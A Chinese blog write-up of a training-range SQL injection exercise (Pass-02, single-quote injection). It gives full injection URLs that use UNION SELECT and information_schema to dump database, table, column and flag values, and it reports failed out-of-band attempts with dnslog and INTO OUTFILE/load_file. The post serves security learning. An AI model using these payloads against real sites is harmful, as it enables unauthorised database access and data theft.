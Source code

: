 ```yaml
---
layout: post
title: 掌控安全 SQL 注入靶场练习Pass2 - 单引号报错注入
categories: [安全, SQL注入]
description: sql 注入靶场练习 单引号报错注入
keywords: SQL注入, oob带外, dnslog
---
```


# 掌控安全 SQL 注入靶场练习Pass2 - 单引号报错注入

+ 课程目标 `https://hack.zkaq.cn/battle/target?id=695d4b6fe02d0bf3`

> **注意**, **误区** : 一定 **不要认为** 所有错误都会被反映到页面上， 程序会处理错误逻辑，并隐藏。


## 0x01. 判断注入点

### 引号探测

使用 `http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and 1=1 --+`。 可以正常显示结果， 但 `1=2 --+` 不行。 

> 判断为 **单引号** 闭合。


### 错误姿势


```sql
-- 1. 语句错误, 测试了 `select 1 到 7`。 都没发现可以显示的注入点。 
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and select 1,2,3,4,5,6,7 --+ 
```
> 1. 首先`语句错误` ， 这里应该使用 **联合查询（UNION）** 确认注入点，而非 **AND**

```sql
-- 2. 联合查询判断条件错误, 显示结果不提示注入点
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' union select 1,2,3 --+ 1
```
> 2. 使用联合查询后使用 `id=1'` 并不能确认 `select 1,2,3` 的注入点， 因为 **UNION 求并集** 依旧会显示正常查询结果。 如图 *select-union-condition-miss.png* 所示

![select-union-condition-miss.png](/images/post/2020/12/09/select-union-condition-miss.png)


### 正确姿势

```sql
-- 1. 正确判断, --+ 注释
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and 1=2 union select 1,2,3 --+ 1
```

```sql
-- 2. 正确判断, # 号注释。 urlcode %23  = #
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and 1=2 union select 1,2,3 %23+ 1
```

1. `id=1' and 1=2` : 闭合 **左单引号** ， 错误截断 。
2. `1=2 union select 1,2,3` : 尝试注入点
3. `--+ 1` 或 `%23+ 1` : 注释右单引号 。 

> **Notice** : `+` 将在 URL Code 中转为为 **空格 ` `**


## 0x02. 数据查找

找到了 **注入显示点** 之后， 剩下的就是是 **联合查询** 的问题了 ， 可以说的东西不多

### 0x02.1. 查询库名, 表名

由于有 **2 和 3** 两个可注入点， 因此在构造语句的时候，使用了 **2条自查询**

1. `select database()` : 查询当前库名
2. `select group_concat(table_name) from information_schema.tables where table_schema=database())` : 通过 `information_schema` 库查询当前所有表名。

```sql
-- dump dbname and tablename 
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and 1=2 union select 1, (select database()), (select group_concat(table_name) from information_schema.tables where table_schema=database()) --+ 1


-- dbname: error
-- tablenames: error_flag,user
```

### 0x02.2. 查询列名

```sql
--- dump column name
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and 1=2 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='error_flag' --+ 1


-- columns: Id,flag
```

![dump-column-name.png](/images/post/2020/12/09/dump-column-name.png)

### 0x02.3. 查询 flag 所有字段值

```sql
--- dump flag values
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and 1=2 union select 1,2,(select group_concat(flag) from error_flag) --+ 1

-- flags: zKaQ-Nf,zKaQ-BJY,zKaQ-XiaoFang,zKaq-98K
```

### 0x03 提交

五个过关 Flag 中 应该只有一个是正确的， 所以需要轮训尝试。

> 第一关的时候我以为 5 个都可以用。 结果随机选择的时候，发现有错误， 还以为程序异常呢。



## 0x04 尝试方法

**1. 使用 OOB (out of band) 带外测试**

最开始在遇到 **注入显示点** 问题的时候， 本准备放弃查找显示点。 替换使用 **`OOB` 带外测试 - Dnslog 测试** 直接一把梭把所有数据全部提交到 `dnslog.cn` 上 。

然而意想不到的是， `dnslog 测试` 不可用， `load_file` 构造的请求无法成功。

**2. OOB 文件 测试法**

在查找 `load_file()` 函数使用过程中， 找到了以下 paper 。 使用 `INTO OUTFILE` 将结果存储到 目标目录。

> https://www.exploit-db.com/papers/14635

+ `select database`

```sql
--- select database
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' union all select database() INTO OUTFILE '/tmp/1.txt' --+ 1

```

+ `select load_file`

```sql
--- select load_file
http://injectx1.lab.aqlab.cn:81/Pass-02/index.php?id=1' and 1=2 union all select 1,2,(select load_file('/tmp/1.txt' )) --+ 1
```

然而失败了。 T_T 。

